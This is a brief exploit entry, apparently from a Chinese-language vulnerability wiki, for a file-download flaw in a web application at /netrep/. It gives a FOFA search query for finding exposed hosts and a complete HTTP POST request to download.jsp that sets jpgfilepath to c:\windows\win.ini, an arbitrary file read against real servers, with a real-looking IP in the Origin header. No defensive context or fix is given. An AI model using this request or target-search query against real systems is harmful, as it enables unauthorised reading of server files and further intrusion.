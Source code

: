<languages />

FOFA
----

    body="/netrep/"

<translate>

漏洞利用
--------

</translate> <translate> 發送以下請求： </translate>

    POST /netrep/ebook/browse/download.jsp HTTP/1.1
    Host:
    Content-Length: 55
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    Origin: http://114.251.113.53:7002
    Content-Type: application/x-www-form-urlencoded

    jpgfilepath=c:\windows\win.ini